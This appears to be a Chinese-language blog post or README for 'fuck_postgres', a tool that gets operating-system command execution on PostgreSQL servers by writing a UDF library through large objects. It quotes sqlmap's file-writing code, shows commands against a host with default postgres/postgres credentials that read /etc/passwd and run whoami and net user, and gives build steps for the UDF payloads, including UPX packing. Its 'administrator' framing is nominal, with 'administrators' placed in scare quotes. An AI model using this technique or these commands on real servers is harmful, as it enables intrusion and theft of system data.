





fuck_postgres
前言
PostgreSQL在国外的流行程度不亚于MySQL，简称postgres。比如你kali linux上的Metasploit数据库服务使用的就是PostgreSQL。
fuck_postgres不是什么黑客攻击工具，他并不是要去fuck什么，只用于便捷地使用PostgreSQL自定义函数来执行系统命令，适用于数据库管理员知道postgres密码却不知道ssh或RDP密码的时候在服务器执行系统命令。
一切攻击都是违法行为，非管理员请不要下载使用。使用此工具的一切违法行为与本人无关。
经测试，sqlmap上对于postgres的–os-shell无效，so文件和dll文件也有问题，语句略坑，所以我抽时间写一个，方便各位“管理员”。
sqlmap该模块的写文件语句详见filesystem.py:1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44def stackedWriteFile(self, wFile, dFile, fileType, forceCheck=False):
wFileSize = os.path.getsize(wFile)
content = open(wFile, "rb").read()
self.oid = randomInt()
self.page = 0
self.createSupportTbl(self.fileTblName, self.tblField, "text")
debugMsg = "create a new OID for a large object, it implicitly "
debugMsg += "adds an entry in the large objects system table"
logger.debug(debugMsg)
# References:
# http://www.postgresql.org/docs/8.3/interactive/largeobjects.html
# http://www.postgresql.org/docs/8.3/interactive/lo-funcs.html
inject.goStacked("SELECT lo_unlink(%d)" % self.oid)
inject.goStacked("SELECT lo_create(%d)" % self.oid)
inject.goStacked("DELETE FROM pg_largeobject WHERE loid=%d" % self.oid)
for offset in xrange(0, wFileSize, LOBLKSIZE):
fcEncodedList = self.fileContentEncode(content[offset:offset + LOBLKSIZE], "base64", False)
sqlQueries = self.fileToSqlQueries(fcEncodedList)
for sqlQuery in sqlQueries:
inject.goStacked(sqlQuery)
inject.goStacked("INSERT INTO pg_largeobject VALUES (%d, %d, DECODE((SELECT %s FROM %s), 'base64'))" % (self.oid, self.page, self.tblField, self.fileTblName))
inject.goStacked("DELETE FROM %s" % self.fileTblName)
self.page += 1
debugMsg = "exporting the OID %s file content to " % fileType
debugMsg += "file '%s'" % dFile
logger.debug(debugMsg)
inject.goStacked("SELECT lo_export(%d, '%s')" % (self.oid, dFile), silent=True)
written = self.askCheckWrittenFile(wFile, dFile, forceCheck)
inject.goStacked("SELECT lo_unlink(%d)" % self.oid)
return written
filesystem.py line65，是将dll文件base64编码解码，整个写入到pg_largeobject的一个page，在linux某些版本一定会报错的。
每page容量为4096字节，如果是hex，只能容纳2kb的数据。
工具特点
- 不限平台，可用于管理windows和linux上的postgres
- 不限版本，udf有效版本内可自行添加库文件到工具目录
- hex+分段写入large obj，无page数据过大问题
- 。。。
USAGE
1 | usage: fuck_postgres [-h] [-a HOST] [-o PORT] [-u USER] [-p PASSWD] |
演示
- 管理PostgreSQL 9.2.24 running on linux 64：
1 | ./fuck_postgres -a 192.168.0.30 -u postgres -p postgresu -e "cat /etc/passwd" |

1 | ./fuck_postgres -a 192.168.0.30 -u postgres -p postgres -e "net user & whoami" |

- 管理PostgreSQL 8.2.21 running on windows 32：
1 | fuck_postgres.exe -a 192.168.0.30 -u postgres -p postgres -e "quser & net user & whoami" |

1 | fuck_postgres.exe -a 192.168.0.47 -u postgres -p postgres -e "ls -al" |

已收录的postgres库文件

各版本源码地址：https://www.postgresql.org/ftp/source
以下来自@zcgonvh（https://www.t00ls.net/thread-30179-1-1.html）
我在拜读前辈文章时，叹服前辈对待技术研究的态度。
udf源文件在此(https://github.com/sqlmapproject/udfhack/)
在 linux 编译so文件简单许多，只需要一条命令：1
gcc sys_eval.c -shared -fPIC -I$PGSRC/include/server -o /tmp/8.2_x64.so
其中$PGSRC 为 postgres 源码的路径或安装路径。
windows上编写 postgres 的 UDF 需要引用其提供的头文件，在 windows 下这些头文件的位置为：
%PGDIR%\include
其中%PGDIR%为 postgres 的安装路径 而需要引用的头文件目录并不仅仅只有这个，以下两个目录也是必须的：
1 | %PGDIR%\include\server |
这三个路径都需要加到工程的头文件目录列表中。
同时，需要将 %PGDIR%\lib
添加至 lib 文件目录列表中。
在编译时，必须使用 vs 进行编译，使用 vc6 编译会失败（原因未知）。
同时也不能使用 release 模式生成，release 的某个选项会导致编译出的 dll 不能正常使用（vs2008 出现此情况，其余版本未测试）。
为了防止对方未安装 vc 运行库，务必将 配置属性->C/C++->代码生成 中的 代码生成 选项修改为多
线程/MT，以保证在任何情况下均能够正常运行。
最后，为了尽可能的减小生成文件体积，需要修改 配置属性->链接器 中以下几个参数：
清单文件->生成清单，修改为否 调试->生成调试信息，修改为否
优化->引用，修改为是
优化->启用 COMDAT 折叠，修改为是
在 vs2008 下使用以上设置，编译成功。 另：建议将生成的动态链接库文件使用 UPX 进行压缩，这样可以有效地减少文件体积。UPX 的下载地
址为：
http://upx.sourceforge.net/#downloadupx
欢迎有vs环境的童鞋编译提交新的库文件。
参考鸣谢
@zcgonvh @anlfi @bt2312 @Catchermana
下载
Download fuck_postgres
Download udf